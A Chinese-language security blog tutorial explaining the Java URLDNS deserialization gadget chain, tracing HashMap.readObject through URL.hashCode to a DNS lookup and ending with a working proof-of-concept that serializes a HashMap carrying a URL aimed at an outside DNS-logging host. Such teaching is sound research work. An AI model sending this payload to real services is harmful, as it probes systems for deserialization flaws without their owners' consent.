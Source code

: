 # URLDNS链详解

  
  
世界上最简单的 java 链  
&lt;!--more--&gt;  
  
  
先来看一下如何序列化/反序列化  
```java  
package org.example;    
    
import java.io.*;    
    
public class App     
{    
    public static void main( String[] args ) throws Exception    
    {    
        user user = new user();    
        user.setName(&#34;xiaoming&#34;);    
        //序列化输出    
        ObjectOutputStream out = new ObjectOutputStream(System.out);    
        out.writeObject(user);    
        System.out.println();    
        // 序列化写入文件    
        FileOutputStream file = new FileOutputStream(&#34;test.bin&#34;);    
        ObjectOutputStream fout = new ObjectOutputStream(file);    
        fout.writeObject(user);    
        // 序列化写入到变量中    
        ByteArrayOutputStream bout = new ByteArrayOutputStream();    
        ObjectOutputStream jout = new ObjectOutputStream(bout);    
        jout.writeObject(user);    
        byte[] str = bout.toByteArray();    
        System.out.println(new String(str));    
        // 从变量中反序列化    
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));    
        user user_d = (user) ois.readObject();    
        System.out.println(user_d.getName());    
    }    
}    
    
class user implements Serializable{    
    private String name;    
    
    public user() {    
    }    
    
    public void setName(String name) {    
        this.name = name;    
    }    
    
    public String getName() {    
        return name;    
    }    
}  
```  
# URLDNS链详解  
## 原理  
`java.util.HashMap`重写了`readObject`方法，在反序列化时调用`hash`函数计算 key 的 hashCode，而`java.net.URL`的 hashCode 在计算时会调用`getHostAddress`来解析域名，从而发出 DNS 请求  
由HashMap 类`readObject`引起，  
```java  
private void readObject(ObjectInputStream s)    
    throws IOException, ClassNotFoundException {    
    reinitialize();    
    
    ObjectInputStream.GetField fields = s.readFields();    
    
    // Read loadFactor (ignore threshold)    
    float lf = fields.get(&#34;loadFactor&#34;, 0.75f);    
    if (lf &lt;= 0 || Float.isNaN(lf))    
        throw new InvalidObjectException(&#34;Illegal load factor: &#34; &#43; lf);    
    
    lf = Math.min(Math.max(0.25f, lf), 4.0f);    
    HashMap.UnsafeHolder.putLoadFactor(this, lf);    
    
    s.readInt();                // Read and ignore number of buckets    
    int mappings = s.readInt(); // Read number of mappings (size)    
    if (mappings &lt; 0) {    
        throw new InvalidObjectException(&#34;Illegal mappings count: &#34; &#43; mappings);    
    } else if (mappings == 0) {    
        // use defaults    
    } else if (mappings &gt; 0) {    
        float fc = (float)mappings / lf &#43; 1.0f;    
        int cap = ((fc &lt; DEFAULT_INITIAL_CAPACITY) ?    
                   DEFAULT_INITIAL_CAPACITY :    
                   (fc &gt;= MAXIMUM_CAPACITY) ?    
                   MAXIMUM_CAPACITY :    
                   tableSizeFor((int)fc));    
        float ft = (float)cap * lf;    
        threshold = ((cap &lt; MAXIMUM_CAPACITY &amp;&amp; ft &lt; MAXIMUM_CAPACITY) ?    
                     (int)ft : Integer.MAX_VALUE);    
    
        // Check Map.Entry[].class since it&#39;s the nearest public type to    
        // what we&#39;re actually creating.        SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);    
        @SuppressWarnings({&#34;rawtypes&#34;,&#34;unchecked&#34;})    
        Node&lt;K,V&gt;[] tab = (Node&lt;K,V&gt;[])new Node[cap];    
        table = tab;    
    
        // Read the keys and values, and put the mappings in the HashMap    
        for (int i = 0; i &lt; mappings; i&#43;&#43;) {    
            @SuppressWarnings(&#34;unchecked&#34;)    
                K key = (K) s.readObject();    
            @SuppressWarnings(&#34;unchecked&#34;)    
                V value = (V) s.readObject();    
            putVal(hash(key), key, value, false, false);    
        }    
    }    
}  
```  
在`HashMap`的键名计算了 hash，  
`putVal(hash(key), key, value, false, false);`  
跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141127560.png)
调用了`key.hashCode()`，而这里的 key 是可控的，就是传入的`java.net.URL`，跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141150723.png)
这里`hashCode==-1`，重新进行`hashCode()`方法计算，跟进`handler`查看调用了哪一个`hashCode()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141151442.png)
`transient关键字，修饰 Java 序列化对象时，不需要序列化属性`也就是`handler`属性不参与序列化，直接跟进`URLStreamHandler`查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141152682.png)
这里调用了`getHostAddress`跟进查看一下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141153663.png)
又调用了`java.net.URL`的`getHostAddress`方法  
继续跟进  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141154024.png)
进入到`InetAddress.getByName(host);`便会触发`DNS`请求  
继续回到`readObject()`中，看看如何给`key`赋值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141230086.png)
`key`是从`K key = (K) s.readObject();`这串代码，也就是`readObject`中得到的，说明之前是`writeObject`会写入 key  
HashMap#writeObject  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232544.png)
进入了`internalWriteEntries()`跟进查看  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232079.png)
这里的`key`以及`value`是从 tab 中取的，而 tab 的值即`HashMap`中 table 的值。  
想要修改table的值，就需要调用`HashMap#put`方法，而HashMap#put方法中也会对key调用一次hash方法，所以这里也会产生一次dns查询  
为了避免这次 dns 查询，我们将hashCode设置不为`-1`的其他值  
构造完整poc  
```java  
package org.example;    
    
import java.io.*;    
import java.lang.reflect.Field;    
import java.net.URL;    
import java.util.HashMap;    
    
    
public class URLDNS {    
    public static void main(String[] args) throws Exception {    
        HashMap hashmap = new HashMap();    
        URL url = new URL(&#34;http://47894df839.ipv6.1433.eu.org&#34;);    
        Field f = Class.forName(&#34;java.net.URL&#34;).getDeclaredField(&#34;hashCode&#34;);    
        f.setAccessible(true);    
        f.set(url,1);    
        hashmap.put(url,1);    
        f.set(url,-1);    
        ByteArrayOutputStream b = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(b);    
        oos.writeObject(hashmap);    
    
        byte[] str = b.toByteArray();    
        System.out.println(str);    
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));    
        ois.readObject();    
    
    
    }    
}  
```  
调用栈如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141314961.png)
  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/urldns%E9%93%BE%E8%AF%A6%E8%A7%A3/  

